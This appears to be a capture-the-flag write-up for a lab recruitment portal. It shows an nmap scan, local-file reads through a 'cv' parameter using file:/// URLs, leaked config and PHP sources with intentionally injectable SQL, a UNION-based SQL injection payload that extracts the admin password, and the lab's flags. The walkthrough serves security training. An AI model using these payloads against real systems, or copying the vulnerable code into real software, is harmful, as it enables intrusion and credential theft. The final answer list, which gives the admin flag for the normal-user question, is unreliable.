








# Recruit

Infiltrate Recruit's new portal. Map the site, hunt for flaws, and gain unauthorised access

## Task 1. Recruit Challenge



**Recruit** has just launched its new recruitment portal, allowing HR staff to manage candidate applications and administrators to oversee hiring decisions. While the platform appears functional, management suspects that security may have been overlooked during development. Your task is to assess the application like a real attacker, mapping its structure, abusing exposed functionality, and exploiting vulnerabilities.

Can you gain an initial foothold, escalate your access, and ultimately log in as the **administrator?**

### Reconnaisance

#### Scan with Nmap

Firstly, lets scan the target with `sudo nmap -A 10.49.142.149`

```shell
root@ip-10-49-85-136:~# sudo nmap -A 10.49.142.149
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-18 17:40 UTC
Nmap scan report for ip-10-49-142-149.ap-south-1.compute.internal (10.49.142.149)
Host is up (0.00019s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d3:78:9f:02:60:e9:ec:ef:b3:9e:12:7c:00:57:4d:a4 (RSA)
|   256 f5:6b:4d:15:b8:e5:62:27:87:db:88:5c:e3:71:74:02 (ECDSA)
|_  256 dc:f8:c1:a6:eb:c1:1a:0c:78:0d:36:c4:7b:c4:51:96 (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Recruit
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=11/18%OT=22%CT=1%CU=32938%PV=Y%DS=1%DC=T%G=Y%TM=6AF
OS:DE343%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A
OS:)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5
OS:=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W
OS:6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S
OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%R
OS:D=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=
OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U
OS:1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DF
OS:I=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT     ADDRESS
1   0.23 ms ip-10-49-142-149.ap-south-1.compute.internal (10.49.142.149)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.63 seconds
```

It seem we got no clue

Lets try Access API:



May be a clue has just appeared:



#### Try `robots.txt` and `sitemap.xml`:

- robots.txt has nothing
- sitemap.xml:

```sml
<?xml version="1.0" encoding="UTF-8"?>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">

    <!-- Public Pages -->
    <url>
        <loc>http://recruit.thm/</loc>
        <changefreq>daily</changefreq>
        <priority>1.0</priority>
    </url>

    <url>
        <loc>http://recruit.thm/index.php</loc>
        <changefreq>daily</changefreq>
        <priority>1.0</priority>
    </url>

    <!-- API & Documentation -->
    <url>
        <loc>http://recruit.thm/api.php</loc>
        <changefreq>weekly</changefreq>
        <priority>0.8</priority>
    </url>

    <!-- CV Retrieval Service -->
    <url>
        <loc>http://recruit.thm/file.php</loc>
        <changefreq>weekly</changefreq>
        <priority>0.6</priority>
    </url>

    <!-- Mails -->
    <url>
        <loc>http://recruit.thm/mail/</loc>
        <changefreq>monthly</changefreq>
        <priority>0.5</priority>
    </url>

    <!-- Authenticated Pages -->
    <url>
        <loc>http://recruit.thm/dashboard.php</loc>
        <changefreq>weekly</changefreq>
        <priority>0.4</priority>
    </url>

    <url>
        <loc>http://recruit.thm/logout.php</loc>
        <changefreq>monthly</changefreq>
        <priority>0.2</priority>
    </url>

    <!-- Static Assets -->
    <url>
        <loc>http://recruit.thm/assets/</loc>
        <changefreq>monthly</changefreq>
        <priority>0.1</priority>
    </url>

    <!--
        Notes:
        - Some directories may contain internal documentation or logs.
        - Certain endpoints are intended for internal HR integrations.
        - Access to sensitive data is role-restricted.
    -->

</urlset>
```

Lets try each of endpoints. We caught a peice of information:



Access mail.log:

```txt
May 14 09:32:11 recruit-server postfix/smtpd[2143]: connect from hr-workstation.local[10.10.5.23]
May 14 09:32:12 recruit-server postfix/smtpd[2143]: 4F1A2203F: client=hr-workstation.local[10.10.5.23]
May 14 09:32:13 recruit-server postfix/cleanup[2146]: 4F1A2203F: message-id=<20240514093213.4F1A2203F@recruit.local>
May 14 09:32:13 recruit-server postfix/qmgr[1789]: 4F1A2203F: from=<hr@recruit.thm>, size=1824, nrcpt=1 (queue active)
May 14 09:32:14 recruit-server postfix/local[2151]: 4F1A2203F: to=<it-support@recruit.local>, relay=local, delay=0.34, status=sent

------------------------------------------------------------
From: HR Team <hr@recruit.thm>
To: IT Support <it-support@recruit.thm>
Date: Tue, 14 May 2024 09:32:10 +0000
Subject: Recruitment Portal Deployment Confirmation

Hi Team,

Just a quick update to confirm that the new Recruitment Portal
has been deployed successfully and is functioning as expected.

We’ve completed basic validation:
- Login page is accessible
- Candidate dashboard loads correctly
- API documentation page is live

As discussed during deployment:
- HR login credentials (username: hr) are currently stored in the application
  configuration file (config.php) for ease of access during
  the initial rollout phase.
- Administrator credentials are NOT stored in the application
  files and are securely maintained within the backend database.

Please let us know if there are any issues or if further changes
are required.

Thanks,
HR Operations
Recruitment Team
------------------------------------------------------------

May 14 09:32:14 recruit-server postfix/qmgr[1789]: 4F1A2203F: removed
```

2 valuable peice of information I got here is `config.php` and username `hr` in HR login credential.

Lets access `config.php` 



Nothing!

Wait. It seem it's time to use api.php

Let's try:

http://10.49.142.149/file.php?cv=test



http://10.49.142.149/file.php?cv=file://127.0.0.1/config.php



Lets try `file:///` to tell OS to browse local file:

Browse: `http://10.49.148.180/file.php?cv=file:///var/www/html/config.php`

```php
<?php

/*
|--------------------------------------------------------------------------
| Application Configuration
|--------------------------------------------------------------------------
*/

$APP_NAME        = 'Recruit';
$APP_ENV         = 'production';
$APP_VERSION     = '1.2.4';
$APP_DEBUG       = false;

/*
|--------------------------------------------------------------------------
| HR Credentials (Temporary – Initial Rollout Phase)
|--------------------------------------------------------------------------
| NOTE:
| These credentials are stored here temporarily for ease of access
| during the initial deployment and will be moved to the database
| in a future release.
*/

$HR_PASSWORD = 'hrpassword123';

/*
|--------------------------------------------------------------------------
| API Configuration
|--------------------------------------------------------------------------
*/

$API_ENABLED     = true;
$API_VERSION     = 'v1';


?>
```

YARSHHH. We finish HR's credential:
`hr:hrpassword123`

Login with that credential to get flag:

> THM{LOGGED_IN_USER}

Next, try `http://10.49.148.180/file.php?cv=file:///var/www/html/index.php`

```php
<?php
include 'config.php';
include '/var/www/db.php';
include 'header.php';
?>

<div class="row justify-content-center">
    <div class="col-md-4">
        <div class="card shadow">
            <div class="card-body">
                <h4 class="text-center mb-3">Recruit Login</h4>

                <form method="POST">
                    <input type="text" name="username" class="form-control mb-2" placeholder="Username" required>
                    <input type="password" name="password" class="form-control mb-2" placeholder="Password" required>
                    <button class="btn btn-primary w-100" name="login">Login</button>
                </form>

                <?php
                if (isset($_POST['login'])) {

                    $username = $_POST['username'];
                    $password = $_POST['password'];


                    if ($username === "hr" && $password === $HR_PASSWORD) {
                        $_SESSION['user'] = 'hr';
                        $_SESSION['role'] = 'hr';
                        header('Location: dashboard.php');
                        exit;
                    }

                    if ($username === 'admin') {

                        $stmt = mysqli_prepare(
                            $conn,
                            "SELECT password FROM users WHERE username = ?"
                        );

                        mysqli_stmt_bind_param($stmt, "s", $username);
                        mysqli_stmt_execute($stmt);
                        mysqli_stmt_bind_result($stmt, $dbPassword);
                        mysqli_stmt_fetch($stmt);
                        mysqli_stmt_close($stmt);

                        // Plaintext comparison (intentional for lab)
                        if ($dbPassword && $password === $dbPassword) {
                            $_SESSION['user'] = 'admin';
                            $_SESSION['role'] = 'admin';
                            header('Location: dashboard.php');
                            exit;
                        }
                    }

                    echo '<div class="alert alert-danger mt-2">Invalid credentials</div>';
                }
                ?>
            </div>
        </div>
    </div>
</div>

<?php include 'footer.php'; ?>
```

Next, try `http://10.49.148.180/file.php?cv=file:///var/www/html/dashboard.php`

```php
<?php
error_reporting(E_ALL);

include 'config.php';
include '/var/www/db.php';
include 'header.php';

if (!isset($_SESSION['user']) || !isset($_SESSION['role'])) {
    header('Location: index.php');
    exit;
}


$flagContent = '';

if ($_SESSION['role'] === 'hr') {
    $flagPath = '/user.txt';
} elseif ($_SESSION['role'] === 'admin') {
    $flagPath = '/admin.txt';
}

if (isset($flagPath) && file_exists($flagPath)) {
    $flagContent = file_get_contents($flagPath);
}


if ($_SESSION['role'] === 'admin' && isset($_GET['action'], $_GET['id'])) {
    $id = $_GET['id'];
    $action = $_GET['action'];

    if ($action === 'approve') {
        $status = 'Approved';
    } elseif ($action === 'reject') {
        $status = 'Rejected';
    }

    if (isset($status)) {
        $updateQuery = "UPDATE candidates SET status='$status' WHERE id=$id";
        mysqli_query($conn, $updateQuery);
    }
}


$search = '';
if (isset($_GET['search'])) {
    $search = $_GET['search']; 
    $query = "SELECT * FROM candidates WHERE name LIKE '%$search%'";
} else {
    $query = "SELECT * FROM candidates";
}

$result = mysqli_query($conn, $query);

if (!$result) {
    $sqlError = mysqli_error($conn);
}


?>

<h3>Candidate Applications</h3>


<?php if (!empty($flagContent)): ?>
    <div class="card border-success mb-4">
        <div class="card-header bg-success text-white">
            <?= strtoupper($_SESSION['role']); ?> Flag
        </div>
        <div class="card-body">
            <pre class="mb-0"><?= htmlspecialchars($flagContent); ?></pre>
        </div>
    </div>
<?php endif; ?>

<!-- Search Form -->
<form method="GET" class="mb-3 d-flex gap-2">
    <input type="text" name="search" class="form-control"
           placeholder="Search candidate name"
           value="<?= htmlspecialchars($search); ?>">
    <button class="btn btn-primary">Search</button>
</form>
<?php if (!empty($sqlError)): ?>
    <div class="alert alert-danger mt-2">
        <strong>SQL Error:</strong><br>
        <?= htmlspecialchars($sqlError); ?>
    </div>
<?php endif; ?>

<!-- Candidates Table -->
<table class="table table-bordered table-striped">
    <thead class="table-dark">
        <tr>
            <th>ID</th>
            <th>Name</th>
            <th>Position</th>
            <th>Status</th>
            <?php if ($_SESSION['role'] === 'admin'): ?>
                <th>Action</th>
            <?php endif; ?>
        </tr>
    </thead>
    <tbody>
        <?php while ($row = mysqli_fetch_assoc($result)): ?>
            <tr>
                <td><?= $row['id']; ?></td>
                <td><?= $row['name']; ?></td>
                <td><?= $row['position']; ?></td>
                <td><?= $row['status']; ?></td>

                <?php if ($_SESSION['role'] === 'admin'): ?>
                    <td>
                        <a href="?action=approve&id=<?= $row['id']; ?>"
                           class="btn btn-sm btn-success">Approve</a>
                        <a href="?action=reject&id=<?= $row['id']; ?>"
                           class="btn btn-sm btn-danger">Reject</a>
                    </td>
                <?php endif; ?>

            </tr>
        <?php endwhile; ?>
    </tbody>
</table>

<?php include 'footer.php'; ?>
```

#### Source Code Analysis

Looking at the search functionality, we find something interesting:

```php
$search = '';
if (isset($_GET['search'])) {
    $search = $_GET['search'];
    $query = "SELECT * FROM candidates WHERE name LIKE '%$search%'";
} else {
    $query = "SELECT * FROM candidates";
}

$result = mysqli_query($conn, $q
uery);
```

**BINGOOOOOO!!!! SQL Injection is here!**

The `search` parameter is directly concatenated into the SQL query without parameterization, making it vulnerable to SQL Injection.

Moreover, the application displays database errors:

```php
if (!$result) {
    $sqlError = mysqli_error($conn);
}
```

Use this payload:

```sql
' UNION SELECT 999,username,password,'ADMIN' FROM users WHERE username='admin' -- 
```

#### Exploitation

Since the login source code reveals that the admin password is retrieved from the `users` table, we can attempt to extract it using UNION-based SQL Injection.

First, we confirm that the original query returns four columns:

```sql
' UNION SELECT 1,2,3,4 -- 
```

The injected row appears in the candidates table, confirming that the UNION injection works.

Now, let's extract the admin credentials:

```sql
' UNION SELECT 999,username,password,'ADMIN' FROM users WHERE username='admin' -- 
```

**Payload breakdown:**

- `'` closes the original SQL string.
- `UNION SELECT` appends a result from another table.
- `999` fills the ID column.
- `username,password` extracts credentials from the `users` table.
- `'ADMIN'` fills the fourth column.
- `--` comments out the remaining SQL syntax.

> admin@001admin

Just log in and catch the flag

> THM{LOGGED_IN_ADM1N1}



**Root cause:** Unsanitized user input in a dynamically constructed SQL query allows an authenticated HR user to retrieve sensitive information from the database and escalate their privileges to admin.

### Questions

What is the flag value after logging in as a normal user?

> THM{LOGGED_IN_ADM1N1}

What is the flag value after logging in as admin?

> THM{LOGGED_IN_ADM1N1}